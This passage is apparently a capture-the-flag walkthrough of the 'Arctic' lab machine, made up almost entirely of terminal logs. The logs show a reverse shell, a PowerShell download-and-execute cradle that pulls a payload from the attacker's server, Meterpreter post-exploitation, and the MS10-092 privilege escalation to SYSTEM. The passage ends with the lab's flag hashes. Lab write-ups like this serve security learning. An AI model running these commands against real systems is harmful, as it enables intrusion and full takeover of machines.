[*] Started reverse TCP handler on 10.10.14.8:1337
msf exploit(multi/handler) >
```

```sh
root@kali:~/arctic# ncat -nlvp 4444
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5130 AF19 5FD8 A224 6472 E65F F8C2 97E1 E4E1 3994
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49308.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
```

```sh
root@kali:~/arctic/unicorn# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.11 - - [30/Jan/2018 23:44:01] "GET /exploit.html HTTP/1.1" 200 -
```

```sh
msf exploit(multi/handler) >
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 10.10.10.11
[*] Meterpreter session 1 opened (10.10.14.8:1337 -> 10.10.10.11:49327) at 2018-01-30 23:46:19 -0500

msf exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  ARCTIC\tolis @ ARCTIC  10.10.14.8:1337 -> 10.10.10.11:49327 (10.10.10.11)

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : ARCTIC
OS              : Windows 2008 R2 (Build 7600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: ARCTIC\tolis
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > search suggest
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                             Disclosure Date  Rank    Description
   ----                                             ---------------  ----    -----------
   auxiliary/server/icmp_exfil                                       normal  ICMP Exfiltration Service
   exploit/windows/browser/ms10_018_ie_behaviors    2010-03-09       good    MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   exploit/windows/smb/timbuktu_plughntcommand_bof  2009-06-25       great   Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   post/multi/recon/local_exploit_suggester                          normal  Multi Recon Local Exploit Suggester
   post/osx/gather/enum_colloquy                                     normal  OS X Gather Colloquy Enumeration


msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on.
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.11 - Collecting local exploits for x86/windows...
[*] 10.10.10.11 - 38 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
[+] 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > back
msf > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User          Path
 ---   ----  ----                     ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 236   4     smss.exe
 276   484   svchost.exe
 328   308   csrss.exe
 380   308   wininit.exe
 388   372   csrss.exe
 436   372   winlogon.exe
 484   380   services.exe
 492   380   lsass.exe
 500   380   lsm.exe
 600   484   svchost.exe
 672   484   svchost.exe
 752   484   svchost.exe
 760   436   LogonUI.exe
 796   484   svchost.exe
 844   484   svchost.exe
 892   484   svchost.exe
 936   484   svchost.exe
 1004  484   spoolsv.exe
 1036  484   CF8DotNetsvc.exe
 1084  1036  JNBDotNetSide.exe
 1092  328   conhost.exe
 1128  328   conhost.exe
 1132  1304  k2server.exe
 1140  484   jrunsvc.exe              x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrunsvc.exe
 1168  1140  jrun.exe                 x64   0        ARCTIC\tolis  C:\ColdFusion8\runtime\bin\jrun.exe
 1176  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 1184  484   swagent.exe
 1204  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 1216  484   swstrtr.exe
 1228  1216  swsoc.exe
 1236  328   conhost.exe
 1304  484   k2admin.exe
 1372  600   WmiPrvSE.exe
 1412  484   svchost.exe
 1448  484   VGAuthService.exe
 1748  484   vmtoolsd.exe
 1772  484   ManagementAgentHost.exe
 2268  1304  k2index.exe
 2284  328   conhost.exe
 2872  1168  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 3068  484   svchost.exe
 3088  4048  powershell.exe           x64   0        ARCTIC\tolis  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 3180  484   dllhost.exe
 3348  484   msdtc.exe
 3440  1168  cmd.exe                  x64   0        ARCTIC\tolis  C:\Windows\System32\cmd.exe
 3872  328   conhost.exe              x64   0        ARCTIC\tolis  C:\Windows\System32\conhost.exe
 3940  484   sppsvc.exe
 4016  3088  powershell.exe           x86   0        ARCTIC\tolis  C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 4048  3440  powershell.exe           x64   0        ARCTIC\tolis  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

meterpreter > migrate 1176
[*] Migrating from 4016 to 1176...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : ARCTIC
OS              : Windows 2008 R2 (Build 7600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on.
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.11 - Collecting local exploits for x64/windows...
[*] 10.10.10.11 - 14 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) >
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION                    yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008


msf exploit(windows/local/ms10_092_schelevator) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 192.168.1.19:4444
[*] Preparing payload at C:\Windows\TEMP\kFntedA.exe
[*] Creating task: RXV0fC74YKl
^C[-] Exploit failed: Interrupt
[*] Exploit completed, but no session was created.
msf exploit(windows/local/ms10_092_schelevator) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.8       yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008


msf exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.8:4444
[*] Preparing payload at C:\Windows\TEMP\AYIOCjq.exe
[*] Creating task: HD8UBTtm7eF
[*] SUCCESS: The scheduled task "HD8UBTtm7eF" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\HD8UBTtm7eF...
[*] Original CRC32: 0xaec3d6e8
[*] Final CRC32: 0xaec3d6e8
[*] Writing our modified content back...
[*] Validating task: HD8UBTtm7eF
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] HD8UBTtm7eF                              1/3/2018 2:56:00 ��    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "HD8UBTtm7eF" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "HD8UBTtm7eF" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] SUCCESS: Attempted to run the scheduled task "HD8UBTtm7eF".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Sending stage (179779 bytes) to 10.10.10.11
[*] Meterpreter session 2 opened (10.10.14.8:4444 -> 10.10.10.11:49378) at 2018-01-30 23:59:04 -0500
[*] SUCCESS: The scheduled task "HD8UBTtm7eF" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
meterpreter > shell
Process 1892 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

```sh
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
C:\Users\Administrator\Desktop>
```

```sh
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
C:\Users\tolis\Desktop>
```
